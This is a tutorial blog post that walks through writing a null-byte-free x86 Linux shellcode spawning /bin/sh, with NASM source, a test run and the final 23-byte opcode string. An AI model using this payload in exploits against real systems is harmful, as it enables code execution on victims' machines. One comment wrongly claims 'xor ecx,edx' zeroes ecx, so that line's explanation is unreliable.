 ```yaml
---
layout: post
title:  "Creating a simple x86 shellcode"
date:   2017-09-17 01:51:00
disqus: true
comments: true
categories: Reversing
---
```

<b><font color="red">I'm using a x64 linux to do this</font></b>

It's a simple x86 shellcode to call /bin/sh, but the first thing is understand how the sys_execve works, to do so you can access this <a href="https://syscalls.kernelgrok.com/" target="_blank">site</a> that gives to you a list with all the x86 syscalls, and the values you need to put in each register, just search for sys_execve.

The initial code bellow have all the comments to make it easy to understand how to use the sys_execve,

{% highlight Bash %}
section .data:
	cmd: db "/bin/sh",0x0
section .text:
	global _start
	_start:
		mov eax,0x0b	;use sys_execve
		mov ebx,cmd	;first arg, file to execute
		mov edx,0x0	;first parameter no usage
		mov ecx,0x0	;second parameter no usage
		int 0x80	;kernel interrupt
{% endhighlight %}

Just to test this code, lets compile it, link and execute the binary shell to get the /bin/sh

{% highlight Bash %}
root@demoniware:~/shellcode# nasm -f elf32 sh3llc0d3.asm && ld -m elf_i386 -s -o shell sh3llc0d3.o
root@demoniware:~/shellcode# ./shell
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

But this code is not nullbyte free and it's a problem when we are working with shellcodes, so with some work I got this code,

{% highlight Bash %}
section .text:
	global _start
	_start:
		push ebp		;prologue
		mov ebp,esp		;prologue
		sub esp,10		;reserve 10 bytes on stack
		push 0x68732f6e		;send hs/n to stack
		push 0x69622f2f		;send ib// to stack
		xor eax,eax		;zero to eax
		add eax,0x0b		;add 0x0b on eax to call sys_execve
		mov ebx,esp		;mov //bin/sh(hs/nib//) to ebx
		xor edx,edx		;zero to edx first arg
		xor ecx,edx		;zero ecx second arg
		int 0x80		;kernel interrupt
{% endhighlight %}

To confirm if my code is free of nullbytes, I used this site <a href="https://defuse.ca/online-x86-assembler.htm#disassembly" target="_blank">defuse.ca</a>, that translate asm instructions to opcodes or just use objdump, and now I have a shellcode free of nullbytes with 23 bytes because the shellcode does not need the prologue

{% highlight Bash %}
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x31\xc0\x83\xc0\x0b\x89\xe3\x31\xd2\x31\xd1\xcd\x80
{% endhighlight %}
